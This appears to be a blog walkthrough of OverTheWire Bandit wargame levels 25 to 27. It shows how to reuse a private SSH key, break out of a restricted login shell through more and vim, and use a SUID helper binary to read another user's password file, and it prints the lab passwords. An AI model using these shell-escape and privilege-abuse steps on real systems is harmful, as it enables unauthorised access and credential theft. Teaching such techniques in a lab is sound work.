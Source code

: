 ```yaml
---
layout: post
title: Bandit level 25 to 33 - Walkthrough
date: "2023-04-27 23:01:26 +0100"
categories: [CTF-WRITEUPS, OverTheWire- Bandit]
tags: [linux, bandit]
---
```


## Level 25 --> 26

### Level credentials

- username : **<span style="color : #277BE9">bandit25</span>**
- password : **<span style="color : #277BE9">p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d</span>**

### Level goal

Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.

### Level solution

As described, this level is pretty much free, an ssh key private key is in the current directory, let's copy it to our local machine and use it to access the next level.

```bash
bandit25@bandit:~$ ls
bandit26.sshkey
```

```bash
# in our host machine
┌──(yariss㉿Kali-VM)-[~/boxes/bandit]
└─$ scp -P 2220 bandit25@bandit.labs.overthewire.org:/home/bandit25/bandit26.sshkey .
```

```bash
┌──(yariss㉿Kali-VM)-[~/boxes/bandit]
└─$ ls -l bandit26.sshkey
-rw------- 1 yariss yariss 1679 Apr 27 23:31 bandit26.sshkey
```

Now let's connect to bandit26 !

```bash
┌──(yariss㉿Kali-VM)-[~/boxes/bandit]
└─$ ssh -i bandit26.sshkey bandit26@bandit.labs.overthewire.org -p 2220
```

That's odd, we can't connect ! the connection gets closed...
My first thought `bashrc` being modified.

But, the challenge description is saying that bandit26 is using another shell !

Let's connect using bandit25 credentials and see what the shell is going on!

```bash
bandit25@bandit:~$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
```

Hmmm, its seems like a custom shell, let's read its content.

```bash
bandit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0
```

It seems like the shell executes `more` on `~/text.txt` and when it finished, it exits. The `exit` is the reason we get disconnected.

```bash
bandit25@bandit:~$ ls -l /home/bandit26/text.txt
-rw-r----- 1 bandit26 bandit26 258 Apr 23 18:04 /home/bandit26/text.txt
```

Our text has 258 characters, so what I'm thinking here is, when we log in with bandit26, we must prevent `more` from reading all of `text.txt` content, that way `exit` doesn't get triggered.

<img src="/../assets/bandit25.png" />

It worked, we are not being kicked !
Let's change our shell back to `bash`. but how are we going to do that?

We can access vim inside `more` by just typing `v`, and then inside `vim` we can execute commands.

> Note : hit `ESC` to switch to the command mode

```bash
:set shell=/bin/bash
:shell
```

This sets our shell to `bash`, instead of $SHELL which is not what we want in our case.

`:shell` allows us to open a new `bash` shell inside Vim, which allows us to execute `bash` commands and return to Vim when we're finished.

Here we go, we escaped the broken shell !

```bash
:shell
bandit26@bandit:~$ ls
bandit27-do  text.txt
```

> NH2SXQwcBdpmTEzi3bvBHMM9H66vVXjL

## Level 26 --> 27

### Level credentials

- username : **<span style="color : #277BE9">bandit26</span>**
- password : **<span style="color : #277BE9">SSH KEY from the previous level</span>**

### Level goal

Good job getting a shell! Now hurry and grab the password for bandit27!

### Level solution

After escaping the shell in the previous level, we are now presented with a SUID binary, let's run it.

```bash
bandit26@bandit:~$ ./bandit27-do
Run a command as another user.
  Example: ./bandit27-do id
```

We have exploited something similar to this in the previous levels, we can just display the target's password using this binary.

```bash
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27
YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS
```

And voila !

We got our password 😃

> YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS

